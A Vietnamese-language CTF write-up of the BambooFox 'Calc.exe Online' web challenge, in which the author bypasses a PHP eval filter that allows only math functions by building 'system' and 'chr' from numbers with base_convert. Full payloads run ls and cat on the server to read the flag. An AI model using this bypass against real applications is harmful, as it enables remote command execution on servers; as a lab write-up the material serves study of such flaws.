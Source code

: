 # write up
Chall: http://chall.ctf.bamboofox.tw:13377/
Source: https://github.com/rimc2t/write-up-cho-vui/blob/main/BambooFox-CTF/%5BWeb%5D%20Calc.exe%20Online/source.php
Cùng nhìn tổng quan đề bài 1 xíu nhé!!!!

## Overview

![hinh1](https://scontent.fsgn2-6.fna.fbcdn.net/v/t1.0-9/139404612_1360916280927703_9149939801016827697_n.png?_nc_cat=110&ccb=2&_nc_sid=730e14&_nc_ohc=ve9-OBZQPt4AX9JueT5&_nc_ht=scontent.fsgn2-6.fna&oh=0f8e721f4bf481312e71ad7a610e3cb4&oe=6028F116)

Ctr+U coi đi kiếm source xíu. Ồ cho file source nè:

![hinh3](https://scontent.fsgn2-6.fna.fbcdn.net/v/t1.0-9/138395872_1360917480927583_7950565622394537985_n.png?_nc_cat=100&ccb=2&_nc_sid=730e14&_nc_ohc=HMV2LUg9jkUAX8eqRtb&_nc_ht=scontent.fsgn2-6.fna&oh=37fd2f612f637ea1f216aa900d2adc8c&oe=602818A5)

![hinh4](https://scontent.fsgn2-1.fna.fbcdn.net/v/t1.0-9/139774578_1360918004260864_8841010992383322256_o.png?_nc_cat=105&ccb=2&_nc_sid=730e14&_nc_ohc=uMDLxnc9iB8AX-A8RBK&_nc_ht=scontent.fsgn2-1.fna&oh=7adcceb4a7de133adbc823381609fe69&oe=6027AA47)

Nào như mọi lần tui bắt đầu đi đọc code và kết luận vài dòng:

- Đây là code php
- Có 2 cái function
- Param của mình truyền vào là đi qua hàm **safe_eval**
- Trong **safe_eval**, nó đưa param của mình cho **is_safe** kiểm tra
- Trong **is_safe**, nó bắt đầu chạy code các kiểu -> tóm tắt lại rằng: Chỉ được dùng các hàm trong toàn học, và toán tử +-\*/
- Sau khi **is_safe** true sẽ cho chúng ta thực thi (eval), ngược lại sẽ xuất ra màn hình 1 chuỗi.

> Vậy giải pháp rút ra là phải inject vào 1 đoạn code sao cho hàm **is_safe** trả về true rồi tạo thành 1 command có nghĩa để thực thi được đến server server.

## SEEKING
Mình là một con gà mờ về ctf. Nên khi đọc vào trong đầu nghĩ là *"Ủa? sao được ta? hàm của toán để nó thành command có nghĩa kiểu gì?"*. Quyết định ăn miếng bánh thư giãn cho đầu óc suy nghĩ ngoài cái hộp. Ngẫm nghĩ lại lúc trước có làm (đọc write up làm theo) một số bài web thì các bài liên quan đến **eval()** thì exploit trực tiếp vô luôn, còn cái này có *filter* thì thường dùng những kỹ thuật xor hay bằng cách nào đấy biến số thành chữ.

>Thế là mình quyết định đi tìm các hàm biến số thành chữ hêh

Lúc đầu đi tìm thì mình thấy 1 vài hàm như **dechex** **decoct** thì mình dzui vì thấy có khả năng, mà nghĩ lại: *"Ủa :)) phải có đủ bảng chữ cái chứ, hong ổn rồi"*
Một hồi mình nhìn kỹ xíu nữa thì thấy 1 hàm **base_convert**, hehe nghe xịn mình liền lên w3school tìm hướng dẫn sử dụng (tại w3 có chỗ debug luôn nên mình ưu tiên).

![hinh5](https://scontent.fsgn2-6.fna.fbcdn.net/v/t1.0-9/139701687_1360932737592724_2820394334159202042_n.png?_nc_cat=100&ccb=2&_nc_sid=730e14&_nc_ohc=HND36JbcqNYAX_Rhwq7&_nc_ht=scontent.fsgn2-6.fna&oh=ddfb680eaf96e04f88bb9ba9b463eed4&oe=6027B6DF)

![hinh6](https://scontent.fsgn2-3.fna.fbcdn.net/v/t1.0-9/139477082_1360935034259161_5270276016675269189_n.png?_nc_cat=106&ccb=2&_nc_sid=730e14&_nc_ohc=yYgHu-x5GasAX9knpwh&_nc_ht=scontent.fsgn2-3.fna&oh=98630cfbf2d6a09f6fb8def9ee4edaf9&oe=60291091)

Thử chuyển hệ 36 sang hệ 10 luôn nè:

![hinh7](https://scontent.fsgn2-3.fna.fbcdn.net/v/t1.0-9/139718552_1360935947592403_3256650028083666150_n.png?_nc_cat=106&ccb=2&_nc_sid=730e14&_nc_ohc=mLDYAutpJscAX_No6zB&_nc_ht=scontent.fsgn2-3.fna&oh=93b0061201edcfdda66df394016cf1c4&oe=6029D635)

Hehe boizzz, ngonnnnn

>Sau khi đã tìm được hồ cá, lượm được cần câu. Giờ phải dùng kỹ năng đi câu hoyyyyyyyyy

## INJECTION
Quay lại với hình 1 nhé, coi lại chỗ để nhập phép tính. Trong đầu phải ghi nhớ rằng: *"Bây giờ phải dùng **base_convert** để biến những con số thành 1 command có nghĩa rồi bỏ vô payload này nhaaaa"*

### system(ls)

>system():					base_convert(1751504350,10,36)()
>ls:						    base_convert(784,10,36)
>**PAYLOAD: base_convert(1751504350,10,36)(base_convert(784,10,36))**
Sau đó sẽ trả về kết quả:

![hinh8](https://scontent.fsgn2-3.fna.fbcdn.net/v/t1.0-9/139471146_1360942944258370_7846989612733427119_n.png?_nc_cat=106&ccb=2&_nc_sid=730e14&_nc_ohc=x7CD47HUc1kAX85inpR&_nc_ht=scontent.fsgn2-3.fna&oh=d451023b8209c672721204c1e1177bbd&oe=6026CED9)

Ò ở đây chỉ có index chứ hong có flag :(
Mình đi ra thư mục gốc xem thử có flag ngoài đó hong

### system(ls /)
Lúc này có cái khó khăn là có khoảng trắng và dấu '/'. hmmmmm? làm shaooooo?
Mình tìm mọi cách và được chỉ dẫn đến sử dụng **ord** để lấy mã ascii 1 chữ và **chr** để đổi ascii ra ký tự. Việc mình cần làm là gọi hàm **chr** thông qua hàm **base_convert** và số (số này là đổi chuỗi "chr" từ base-36 sang base-10). Tiếp đó dùng các dấu '.' để nối các hàm lại với nhau.
>system():					base_convert(1751504350,10,36)()
>ls:						    base_convert(784,10,36)
>space:             base_convert(16191,10,36)(32)
>/:                 base_convert(16191,10,36)(47)
>**PAYLOAD: base_convert(1751504350,10,36)(base_convert(784,10,36).base_convert(16191,10,36)(32).base_convert(16191,10,36)(47))**
Nhận ngay kết quả: 

![hinh9](https://scontent.fsgn2-4.fna.fbcdn.net/v/t1.0-9/137328100_1360948444257820_2551682331755669394_n.png?_nc_cat=101&ccb=2&_nc_sid=730e14&_nc_ohc=LNzI_tUCEPsAX9gLo1d&_nc_ht=scontent.fsgn2-4.fna&oh=113d5590d5f2fa6155970803f6328907&oe=60294521)

Á à thì ra flag nằm ngày đây: **flag_a2647e5eb8e9e767fe298aa012a49b50**
Giờ thì mình mở ra xem hoyyyyy

### system(cat /flag_a2647e5eb8e9e767fe298aa012a49b50)
>system():					                   base_convert(1751504350,10,36)()
>cat:						                      base_convert(15941,10,36)
>space:						                    .base_convert(16191,10,36)(32)
>/:						                        .base_convert(16191,10,36)(47)
>flag:					                    	.base_convert(727432,10,36)
>_:				                         		.base_convert(16191,10,36)(95)
>a2647e5eb8e9e767fe298aa012a49b50):		.base_convert(788365066082,10,36)
>						                         	.base_convert(880282369231,10,36)
>						                         	.base_convert(1206073849608,10,36)
>					                        		.base_convert(83329543332,10,36)

Đoạn nào chữ thôi thì mình chỉ cnầ dùng **base_convert** còn đoạn nào có ký tự đặc biệt thì mình kết hợp với **chr** (16191 base36) nữa nhé!
Ở chuỗi chữ và số dài loằng ngoằng kia ban đầu mình chỉ dùng 1 lần **base_convert** nhưng mà nó bị tràn số ra kết quả hong chính xác nên mình chia thành 4 đoạn.
Giờ chỉ cần ghép lại tất cả để có payload chính xác:

>>**PAYLOAD: base_convert(1751504350,10,36)(base_convert(15941,10,36).base_convert(16191,10,36)(32).base_convert(16191,10,36)(47).base_convert(727432,10,36).base_convert(16191,10,36)(95).base_convert(788365066082,10,36).base_convert(880282369231,10,36).base_convert(1206073849608,10,36).base_convert(83329543332,10,36)) **

Hơi dài nhưng chỉ 405chars vẫn thỏa < 1024 của đề bài. Cuối cùng nhận được kết quả:

![hinh10](https://scontent.fsgn2-6.fna.fbcdn.net/v/t1.0-9/139449877_1360956844256980_5107937802172987774_n.png?_nc_cat=110&ccb=2&_nc_sid=730e14&_nc_ohc=c2LKQLlWJnwAX8XJqRI&_nc_ht=scontent.fsgn2-6.fna&oh=652d2a0cf660532758b0dfc732742e23&oe=60277931)


***Trên đây là tất cả write-up của mình về bài "Calc.exe Onl", trình còn kém nên làm còn mơ hồ, diễn giải có thể màu mè hoặc không đúng. Mong bạn đọc có thể đóng góp ý kiến <3***
